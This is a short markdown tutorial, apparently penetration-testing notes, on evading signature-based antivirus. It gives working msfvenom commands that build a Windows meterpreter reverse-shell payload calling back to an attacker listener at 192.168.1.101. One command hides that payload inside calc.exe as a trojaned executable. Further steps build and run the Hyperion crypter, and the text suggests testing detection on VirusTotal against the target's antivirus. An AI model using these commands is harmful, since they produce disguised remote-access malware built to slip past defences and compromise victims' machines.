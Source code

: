 # Bypassing antivirus

So first of all, what is a antivirus program and how does it work?

## How does it work?

Antivirus normally uses blacklisting as their methodology. They have a huge database full of signatures for different known malware. Then the antivirus just scans the disk and search for any of those signatures. 

## How do we bypass it?

So since there are many different antivirus and they all have different databases of signatures it is important for us to know what antivirus our target uses. Once we know that we can use virtustotal.com to upload our malicious files to see if that specific antivirus finds it. 

So what we need to do is to change the malware enough so that the signature changes and the antivirus is not able to identify the file as malicious.

There are a few different techniques for doing this.

### Encoding

We can encode our malware in different ways. This can be done with msfvenom. Notice how we set the **-e** flag here, and then use the shikata_ga_nai encoding. This is not that effective since antivirus-vendors have access to meteasploit as well.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

### Embed in non-malicious file

Another way is to embed our payload in a non-malicious file.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -x calc.exe -o
bad_calc.exe
```

### Encrypting the malware

In order to obfuscate our malware we can encrypt it, and thus radically changing the signature. One much mentioned tool for doing that is Hyperion. It is a windows binary but we can compile and run it from linux as well. This worked for me (october 2016)

```
wget https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/Hyperion-1.2.zip
unzip Hyperion-1.2.zip
i686-w64-mingw32-c++ Hyperion-1.2/Src/Crypter/*.cpp -o hyperion.exe
```

In Kali you have hyperion 1 included. However for it to work you have to run it from it's correct path. So go to **/usr/share/veil-evasion/tools/hyperion**

And run it like this

```
wine hyperion /path/to/file.exe encryptedfile.exe
```
